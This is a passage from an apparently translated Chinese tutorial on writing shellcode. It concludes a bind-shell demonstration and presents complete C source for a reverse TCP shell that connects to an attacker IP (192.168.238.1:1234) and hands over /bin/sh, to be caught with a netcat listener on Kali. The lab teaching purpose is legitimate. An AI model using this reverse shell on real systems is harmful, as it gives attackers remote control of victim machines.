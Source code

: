 现在，它已连接并等待我们的命令；让我们试试：

```
$ cat /etc/issue
```

上述命令的输出显示在以下屏幕截图中：

![](../images/00215.gif)

现在我们有了第一个真正的外壳代码！

# 反向 TCP 外壳

在本节中，我们将创建另一个有用的外壳代码，即反向 TCP 外壳。反向 TCP 外壳与绑定 TCP 相反，因为受害者的机器再次与攻击者建立连接。

首先，让我们看一下 C 代码：

```
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h> 

int main(void)
{
    int sockfd;
    int port = 1234;
    struct sockaddr_in mysockaddr;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    mysockaddr.sin_family = AF_INET;
    mysockaddr.sin_port = htons(port);
    mysockaddr.sin_addr.s_addr = inet_addr("192.168.238.1");

    connect(sockfd, (struct sockaddr *) &mysockaddr,
    sizeof(mysockaddr));

    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
    return 0;
}
```

首先，我们将在我们的一台受害者机器（Ubuntu）上编译并执行此命令。我们将在攻击机器（Kali）上设置一个侦听器，shell 将通过在代码中添加 Kali 的 IP 从 Ubuntu 连接回 Kali。

让我们使用`nc`命令或`netcat`工具在 Kali 上设置一个侦听器：
